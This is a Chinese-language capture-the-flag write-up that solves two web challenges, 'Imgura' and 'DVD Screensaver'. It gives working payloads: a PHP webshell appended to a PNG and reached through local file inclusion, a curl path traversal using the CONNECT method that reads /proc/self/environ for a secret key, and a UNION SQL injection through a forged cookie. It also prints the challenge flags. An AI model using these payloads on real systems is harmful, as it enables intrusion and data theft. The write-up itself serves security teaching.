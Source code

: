 # Imgura

首先可以發現到 server 的 `.git` 可以有東西，所以可以用一些工具如 [DotGit](https://chrome.google.com/webstore/detail/dotgit/pampamgoihgcedonnphgehgondkhikel) 把整個 repo 下載下來，之後用 `git log` 看一下裡面的 history 之後 checkout 到有檔案的任意 commit，例如 `c7fdc1d4948f920604f2bb069dbddf0d3e03d923`。

從 source code 裡面可以看出在 `/dev_test_page` 的地方有頁面，實際測試 [https://imgura.chal.h4ck3r.quest/dev_test_page/](https://imgura.chal.h4ck3r.quest/dev_test_page/) 也能看到預期中的頁面。

閱讀裡面的程式碼可以發現 `index.php` 有個的 LFI 漏洞，但是他會強制在 include 的 path 後面加上 `.php`:

```php
include ($_GET['page'] ?? 'pages/main') . ".php";
```

另外在 `upload.php` 可以看到它有提供檔案上傳，但是會做以下的幾個檢測:

* 檢查副檔名: `name.split('.')[1] in ['png', 'jpeg', 'jpg']` (以 Python 表示的話)
* 檔案大小需小於 256000 bytes
* fileinfo 檢測檔案為 `image/png` 或是 `image/jpeg
* `getimagesize` 取得的長寬都不得超過 512
* 檔案內容中不得出現 `<?php` (不分大小寫)

通過檢測之後就會隨機產生個檔名，然後移動到 `images` 資料夾中，而該檔名為 `${prefix}_${filename}` 格式，其中 `filename` 為使用者可控。

副檔名的部份可以簡單的以 `shell.png.php` 的方法繞過。而圖片本身的內容我是先創建一個空白的 png，長寬小於 512，之後改名為 `shell.png.php` 之後直接在後面 append `<?= system($_GET['cmd']); ?>` 即可，因為 png 這個格式允許你在 IEND 的後面亂塞東西，而 `<?=` 也是 php 的另一個 open tag，所以可以通過檢測。

之後使用下方指令上傳可以在 `Location` 的地方看到新的檔案路徑:

```zsh
curl 'https://imgura.chal.h4ck3r.quest/dev_test_page/upload.php' -F 'image_file=@shell.png.php' -v
```

例如我得到的其中一個是 `images/10f428f2_shell.png.php`，那麼就利用下方的網址用 LFI 去把 webshell include 進去就能得到 flag 了:

```text
https://imgura.chal.h4ck3r.quest/dev_test_page/?page=images/10f428f2_shell.png&cmd=cat%20/this_is_flaggggg
```

> 直接存取 `images/10f428f2_shell.png.php` 應該也是可以...

FLAG: `FLAG{ImgurAAAAAA}`

# DVD Screensaver

從 source code 可以看出 `/login` 疑似有 SQLi，但實質上因為 `IsLetter` 的檢查讓他沒辦法做 injection，實際上只能透過 `/` 裡面從 session 中取得的 username 才能 SQLi。

要 SQLi 需要能為任意的 username 取得對應的 signed cookie，也就是需要拿到 `SECRET_KEY` 才行。

裡面的 `/static/` 明顯能看出有 Path Traversal 的洞，但是實際上去執行的時候卻會失敗:

```zsh
> curl --path-as-is 'http://dvd.chal.h4ck3r.quest:10001/static/../app.go'
<a href="/app.go">Moved Permanently</a>.
```

這是因為 golang 預設的 http server 就會去 normalize 你的 path，像是把 `..` 等等的東西給簡化，但是我們要 Path Traversal 必須要讓 `strings.TrimPrefix(r.URL.Path, "/static/")` 出現 `..` 才行。

去讀 golang 的 http source code 可以在[這邊](https://cs.opensource.google/go/go/+/refs/tags/go1.17.2:src/net/http/server.go;l=2363;drc=refs%2Ftags%2Fgo1.17.2;bpv=0;bpt=1)看到當 http verb 是 `CONNECT` 的時候它不會去 normalize，所以用下方的指令就能拿到 `SECRET_KEY` 了:

```zsh
curl -X CONNECT --path-as-is 'http://dvd.chal.h4ck3r.quest:10001/static/../../proc/self/environ' --output -
```

例如我找到的是 `d2908c1de1cd896d90f09df7df67e1d4`，之後只要利用這個去 sign cookie 就能 SQLi 了。

翻一下 `github.com/gorilla/sessions` 底層所用的 cookie signing 的 module 是 `github.com/gorilla/securecookie`，所以可以利用它寫出個 go 程式去幫你 sign cookie 出來，這部分的程式碼在 `sign.go` 之中。

之後在 python 可以利用 `subprocess.check_output` 去簡單的呼叫那個 sign cookie 的程式，之後利用下方的 union select SQLi 就能拿到 flag 了:

```sql
' union select flag, 'pekomiko' from users where flag like 'FLAG{%' and ''='
```

這部分詳見 `solve.py`。

FLAG: `FLAG{WOW_I_am_the_real_flag____MEOWWWW}`
